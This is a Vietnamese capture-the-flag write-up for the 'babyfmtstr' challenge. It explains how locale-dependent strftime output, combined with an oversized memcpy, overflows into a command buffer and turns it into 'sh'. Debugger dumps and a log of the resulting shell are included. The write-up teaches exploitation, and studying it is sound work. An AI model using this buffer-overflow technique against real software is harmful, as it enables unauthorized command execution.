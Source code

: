 # write up babyfmtstr - fmtstr locale battle 
- first em sẽ đươc phép nhập format nhưng là format trong locale của libc nên khi qua hàm strftime nó sẽ được chuyển thành định dạng thời gian như ngày giờ, nên format string không sử dụng được như tên bài
```bash 
00:0000│  0x5555555580e0 (output) ◂— '04/21/2404/21/2404/21/2404/21/2404/21/24%%%%%'
01:0008│  0x5555555580e8 (output+8) ◂— '04/21/2404/21/2404/21/2404/21/24%%%%%'
02:0010│  0x5555555580f0 (output+16) ◂— '04/21/2404/21/2404/21/24%%%%%'
03:0018│  0x5555555580f8 (output+24) ◂— '04/21/2404/21/24%%%%%'
04:0020│  0x555555558100 (command) ◂— '04/21/24%%%%%'
05:0028│  0x555555558108 (command+8) ◂— 0x2525252525 /* '%%%%%' */
06:0030│  0x555555558110 (command+16) ◂— 0x0
07:0038│  0x555555558118 (command+24) ◂— 0x0
```
- tiếp theo ta sẽ có hàm memcpy trong chương trình sẽ copy biến buff chứa những gì được chuyển đổi từ hàm strftime sang biến output, nhưng biến output chỉ có 0x20 bytes mà nó copy tới 0x30 nên buff xảy ra và lọt xuống biến chứa command sẽ được thực thi ở sau cùng, chính vì vậy khi em nhập format ngày giờ phải chọn đúng thì mới có thể overwrite được biến command thành sh để có shell

```c
char output[0x20];
char command[0x20];
```
ở đây khi nhập format %A in tên ngày trong tuần thì nó chỉ có Sunday theo thời gian thực 
```bash
Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> 1
The time now is 1713717621.
Enter format specifier: %A
Formatted: Sunday
```
- khi dịch Sunday sang nhiều thứ tiếng khác nhau thì khả năng có rất nhiều thứ tiếng sẽ có chữ h ở cuối vì vậy cần chọn cho thích hợp 
- Sẽ có 2 chữ có chữ s và chữ h trong chuỗi và ở vị trí thích hợp:
1. Didòmhnaic[h] tương ứng với sunday trong tiếng anh format %A
2. áprili[s] tương ứng với April trong tiếng anh format %B
```
- có thể sẽ mất nhiều thời gian để tìm, và cũng có thể vào 1 ngày khác trong tương lai sẽ có 1 ngày như vậy, với bài này chỉ dùng được cho chủ nhật vì hiện tại người làm đang ở ngày chủ nhật 
```bash
In [13]: hex(u64(b"aaprilis"))
Out[13]: '0x73696c6972706161'
```
```bash
In [10]: hex(u64(b"ilisaich"))
Out[10]: '0x6863696173696c69'
```
- khi đổi sang hex thì sẽ có được 2 bytes cuối là 0x68 và 0x73 ghép lại là 0x6873 chính là chữ "sh"

```bash
In [5]: hex(u16(b"sh"))
Out[5]: '0x6873'
```
- vì vậy ta chỉ cần overwrite 2 bytes cuối là có thể thực thi command
- vì vậy lần đầu overwrite ta sẽ chọn chữ số 1 để overwrite 

```bash
pwndbg> tel &output
00:0000│  0x5555555580e0 (output) ◂— 0x34322f31322f3430 ('04/21/24')
01:0008│  0x5555555580e8 (output+8) ◂— 0x34322f31322f3430 ('04/21/24')
02:0010│  0x5555555580f0 (output+16) ◂— 0x6944252525252525 ('%%%%%%Di')
03:0018│  0x5555555580f8 (output+24) ◂— 0x69616e686db2c344
04:0020│  0x555555558100 (command) ◂— 0x6863 /* 'ch' */
```
- để write được thì cần padding thích hợp sao cho chữ bytes cuối là chữ h rơi vào chữ l của command ban đầu 

```bash
pwndbg> tel &output
00:0000│  0x5555555580e0 (output) ◂— 0x34322f31322f3430 ('04/21/24')
01:0008│  0x5555555580e8 (output+8) ◂— 0x34322f31322f3430 ('04/21/24')
02:0010│  0x5555555580f0 (output+16) ◂— 0x34322f31322f3430 ('04/21/24')
03:0018│  0x5555555580f8 (output+24) ◂— 0x696c697270a1c325
04:0020│  0x555555558100 (command) ◂— 0x6873 /* 'sh' */
```
- tiếp theo padding nốt 1 byte còn lại là 0x73 vào là xong, ta được chuỗi sh, khi chạy command sẽ tạo ra được shell
- khi chọn option 3 thì vòng lặp while đưa chương trình vào hàm goodbye và thực thi system 
```bash

Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> $ 3
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Received 0x8 bytes:
    00000000  41 64 69 c3  b3 73 21 0a                            │Adi·│·s!·│
    00000008
Adiós!
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x67 bytes:
    b'Dockerfile\t      fmtstr\tfmtstr.i64  fmtstr_patched\n'
    b'dist-baby-fmtstr.zip  fmtstr.c\tfmtstr.md   solve.py\n'
Dockerfile          fmtstr    fmtstr.i64  fmtstr_patched
dist-baby-fmtstr.zip  fmtstr.c    fmtstr.md   solve.py
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x67 bytes:
    b'Dockerfile\t      fmtstr\tfmtstr.i64  fmtstr_patched\n'
    b'dist-baby-fmtstr.zip  fmtstr.c\tfmtstr.md   solve.py\n'
Dockerfile          fmtstr    fmtstr.i64  fmtstr_patched
dist-baby-fmtstr.zip  fmtstr.c    fmtstr.md   solve.py
$  

```
## cách có được locale của 2 ngôn ngữ sử dụng
- đầu tiên edit file /etc/locale.gen uncomment 2 locales 
```bash
#gd_GB.UTF-8... done
#hu_HU.UTF-8... done

```
- gen locale
```bash
🍎 >> sudo locale-gen 
Generating locales...
  gd_GB.UTF-8... done
  hu_HU.UTF-8... done
Generation complete.

```
- check locale
```bash
🍎 >> localectl list-locales
C.UTF-8
gd_GB.UTF-8
hu_HU.UTF-8
```
```bash
[DEBUG] Received 0x12 bytes:
    b'Enter new locale: '
[DEBUG] Sent 0xb bytes:
    b'gd_GB.utf8\n'
[DEBUG] Received 0x78 bytes:
    b'Locale changed successfully!\n'
```



